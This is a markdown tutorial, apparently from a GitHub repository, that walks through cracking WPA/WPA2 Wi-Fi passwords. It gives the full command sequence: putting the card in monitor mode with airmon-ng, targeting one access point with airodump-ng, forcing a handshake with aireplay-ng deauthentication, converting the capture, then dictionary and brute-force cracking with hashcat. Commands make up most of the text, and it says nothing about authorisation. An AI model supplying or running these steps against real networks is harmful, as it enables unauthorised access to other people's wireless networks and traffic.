










## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- **GPU** for `hashcat`

### Lets capture the flag (I mean \*Handshake):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

   

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **cap2hccapx.c** file to convert the **cap** file to **hccapx** file

    > gcc cap2hccapx.c -o cap2hccapx && ./cap2hccapx file.cap file.hccapx

    

    **Note :** cap to pkid (in case of pkid) :

    > hcxpcaptool -z pmkidhash suva-01.cap

1.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      

      

- Bruteforce :
  Example (bruteforce for length 8 password using 0-9 digits) :

  > hashcat -a 3 -m 16800 pmkidhash ?d?d?d?d?d?d?d?d

  Then you will get the password (if you are lucky enough).
  
  here password : secret

- Others :
  All ready cracked pass check :

  > hashcat -m 2500 test.hccapx rockyou.txt --show
